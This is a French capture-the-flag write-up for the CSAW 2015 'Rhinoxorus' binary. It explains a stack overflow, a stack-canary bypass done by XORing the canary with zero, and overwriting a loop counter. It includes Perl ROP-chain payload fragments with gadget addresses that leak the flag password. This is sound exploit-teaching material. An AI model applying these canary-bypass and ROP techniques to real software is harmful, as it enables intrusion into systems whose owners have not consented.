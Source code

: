 ```yaml
---
title: CSAW-preq 2015 - Rhinoxorus (exploitable 500)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```



Voici un petit write-up pour le challenge 'rhinoxorus' du CSAW ctf 2015.

### **Analyse**

```
    $ rop-tool info ./repo/CTF/CSAW_preq_2015/exploit500

     ===== INFOS =====
    Filename                 ./repo/CTF/CSAW_preq_2015/exploit500
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x8048750
    Loadables segments       2
    Sections                 30

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled
```

Il s'agit d'un fork-serveur écoutant sur le port 24242. Une fois connecté, le serveur lit une chaine de caractères, puis fais quelques opérations dessus. On arrive assez vite à faire planter le serveur en envoyant une chaine assez longue.


Au début du challenge, le code source n'était pas fourni (il le fût au bout d'un moment, mais j'avais déjà fini la partie reversing...), j'ai donc sorti IDA pour tenter de comprendre le fonctionnement de ce mystérieux programme.


On trouve dans le programme 256 fonctions, ayant la forme suivante (pas 100% fidèle) :

```c
    #define BUFF_SIZE(X) ((0x84 - (0x32 - X)*4) & 0xFF)
    #define CHAR_TO_FUNC(c) ((c + 0x32) & 0xFF)

    #define CALL_FUNC(x,s,c) do { functions[x](s,c); } while(0)

    #define FUNC(X)                                 \
      void func_X(char *buff, int count) {          \
        char s[BUFF_SIZE(X)];                       \
        int i;                                      \
                                                    \
        if(--count == 0)                            \
          return;                                   \
                                                    \
        memset(s, BUFF_SIZE(X), BUFF_SIZE(X));      \
                                                    \
        for(i = 0; i < count; i++) {                \
          s[i] ^= buff[i];                          \
        }                                           \
                                                    \
        CALL_FUNC(CHAR_TO_FUNC(s[0], ++s, count));  \
                                                    \
      }
```

On remarque que notre chaine de caractère est traité de cette manière :

```c
    CALL_FUNC(CHAR_TO_FUNC(buffer[0], buffer, len_received);
```

On peut constater que ces fonctions sont toutes vulnérables à un stack based overflow...

Maintenant, comment exploiter tout ça, en sachant qu'il y a Stack Smashing Protector ?


### **Exploitation**

Ma cible a été la fonction func_00 (il fallait en choisir une...)

Au début de ma chaine, je mets une rop-chain exécutant sock_send(sock, password, len). Ils ont été gentils de nous fournir cette fonction, en plus du password à une adresse fixe...
Mais je pense, qu'une fois qu'on était arrivé à faire exécuter notre rop-chain, il aurait été plutôt facile de réaliser une exploitation plus poussée (leak de la libc, mmap() d'un shellcode, etc...)

```perl
    $buff .= pack("L", 0x0804a5ce); # ret
    $buff .= pack("L", 0x0804884b); # sock_send()
    $buff .= pack("L", 0x44444444); # dummy
    $buff .= pack("L", 5);          # sock
    $buff .= pack("L", 0x0805f0c0); # @password
    $buff .= pack("L", 0x100);      # len

```

Au début de ma rop-chain, je mets un 'ret' car étant donné que le premier caractère de notre chaine détermine quelle fonction est appelée, il est plus facile de trouver une instruction ret avec un byte de poids faible permettant d'appeler notre fonction func_00().

```
$ rop-tool g ./repo/CTF/CSAW_preq_2015/exploit500 -d 1 -a -n | grep ret | grep "ce ->"
     0x0804a5ce -> ret ;
```

Je remplis ensuite le buffer à overflowé avec n'importe quoi...

** Comment bypasser le canary ?**

Étant donné que le buffer sur lequel nous débordons est xoré avec notre payload...Si on XOR le canary avec 0x0, notre canary ne sera pas modifié !

Ensuite, une fois la fonction func_00 appelée, nous souhaitons que l'exécution s'arrête afin d'éviter un segfault dans une autre fonction ayant un buffer plus petit. Pour se faire, on remarque qu'il est possible d'écraser la variable count, variable utilisée comme cas d'arrêt.

Si on met cette variable à 1, alors la prochaine fonction func_X appelée retournera immédiatement.

Étant donnée que dans func_00, la variable count vaut 0xd7 (taille de notre buffer - 1), il suffit de xorer cette valeur avec 0xd7 XOR 1.

En effet :

```
count = 0xd7 XOR (0xd7 XOR 1)

<=> count = (0xd7 XOR 0xd7) XOR 1

<=> count = 1

```

Ensuite, notre rop-chain (le buffer présent dans process_connection()), étant situé à ESP+0x1c octets au moment du retour de la fonction func_00, on a besoin d'écraser saved-eip par la valeur d'un gadget permettant d'incrémenter ESP de 0x1c octets.

```
$ rop-tool g ./repo/CTF/CSAW_preq_2015/exploit500 -d 10 | grep "add esp"
    0x080578f5 -> add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret ;
     ...
```

Par chance, nous trouvons pile ce qu'il nous faut.

Il ne faut pas oublier de XORER cette adresse avec l'ancien saved-eip dans notre payload.

On a tout ce qu'il faut pour créer notre exploit et obtenir le flag !

```perl
    $buff .= pack("L", 0x0);                     # canary
    $buff .= pack("L", 0x44444444)x3;            # padding

    $buff .= pack("L", 0x080578f5 ^ 0x08056afa); # add esp, 0xc, pop4 ; ret
    $buff .= pack("L", 0x44444444);              # dummy
    $buff .= pack("L", 0xd7 ^ 0x1);              # count
```

L'exploit se trouve ici : [exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit500.pl)

Et le binaire là : [binaire](https://repo.t0x0sh.org/CTF/CSAW_preq_2015/exploit500)


Challenge intéressant ; il fallait voir qu'on pouvait XORER le canary avec 0x0 et écraser la variable count afin de stopper l'exécution.

